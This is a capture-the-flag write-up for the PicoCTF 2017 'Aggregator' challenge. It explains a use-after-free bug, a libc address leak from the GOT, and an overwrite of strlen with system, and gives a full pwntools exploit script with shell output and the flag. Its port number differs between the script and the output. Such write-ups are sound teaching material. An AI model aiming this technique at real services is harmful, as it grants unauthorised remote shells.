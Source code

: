 # PicoCTF_2017: Aggregator

**Category:** Binary
**Points:** 190
**Description:**

I wrote a program to help me synthesize my log files. You can edit the log files to add annotations that will print out aggregated information. Because the original program that outputs the logs was a bit faulty, I also included the ability to clear a single day of logs.  
Find my aggregator running on shell2017.picoctf.com:7785. [aggregator.c](https://webshell2017.picoctf.com/static/2745e04028ecf1c8ae15c70bb085f5e6/aggregator.c)  [aggregator](https://webshell2017.picoctf.com/static/2745e04028ecf1c8ae15c70bb085f5e6/aggregator)

**Hint:**

Does it look like there is a stack vulnerability?

## Write-up

In my opinion the main difficulty in this challenge was to read these 350 lines of code. The vulnerability was rather an obvious one. Very often if the application allows to remove data (and in this challenge it's even mentioned in description), there is  `use-after-free`  flaw.

When we add some value to database and then remove it, the memory will be freed, but the pointer in  `D->table[offset]`won't be reset, so we can still use this data. Our buffer is also stored on heap, so we can overwrite old content just by sending any string. Then we can use aggregate function to read some pointers from  `.got.plt`.

``` text
$ r2 /lib/x86_64-linux-gnu/libc.so.6
[0x00021c50]> ?v sym.free
0x7c600
[0x00021c50]> ?v sym.system
0x41490

```

With this knowledge we can easily calculate  `system`  address and now we only have to write it to  `.got.plt`. We add another value to database and immediately remove it. Then we overwrite the memory with fake  `data_table_chain`  using the vulnerability. We set  `*data`  pointer to  `strlen@got.plt`  and then add next value to database (`system`  address).

```python
#!/usr/bin/env python2

from pwn import *

from struct import pack,unpack

FREE_GOT_PLT = 0x601EF0

STRLEN_GOT_PLT = 0x601F00

FREE_OFFSET = 0x7c600

SYSTEM_OFFSET = 0x41490

r = remote("shell2017.picoctf.com", 8708)

r.send("09-24-2018 0\n")

r.send("~09-24-2018\n")

payload = pack("<Q",FREE_GOT_PLT)+pack("<Q",24)+pack("<Q",2)+pack("<Q",1)+pack("<Q",0)

r.send(payload+"\n")

r.recv()

r.send("ax 09-2018\n")

free_libc = int(r.recv().splitlines()[-1])

libc_base = free_libc-FREE_OFFSET

system_libc = libc_base+SYSTEM_OFFSET

r.send("09-25-2018 0\n")

r.send("~09-25-2018\n")

payload = pack("<Q",STRLEN_GOT_PLT)+pack("<Q",25)+pack("<Q",2)+pack("<Q",0)+pack("<Q",0)

r.send(payload+"\n")

r.send("09-25-2018 %d\n"%system_libc)

r.interactive()
```
```text
$ python solve.py 
[+] Opening connection to shell2017.picoctf.com on port 7785: Done
[*] Switching to interactive mode
$ ls
aggregator
flag.txt
xinetd_wrapper.sh
$ cat flag.txt
a65b3f946c058f6dbec3d14d8449a468
```
Flag : `a65b3f946c058f6dbec3d14d8449a468`

Thanks [BOAKGP]()
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTM5Mjk1MjUwMCwzNjUyNDI4Ml19
-->
